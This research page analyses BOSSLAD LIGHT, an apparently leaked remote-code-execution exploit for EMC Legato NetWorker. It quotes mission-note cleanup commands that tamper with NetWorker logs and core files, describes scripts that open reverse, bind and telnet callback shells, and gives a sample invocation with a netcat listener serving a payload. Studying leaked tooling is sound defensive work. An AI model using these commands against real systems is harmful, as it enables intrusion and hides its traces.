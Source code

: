 [STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.



## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is ran "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress.

![Bosslad light on the wire](../assets/images/bl_light_pcap.png)

Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.
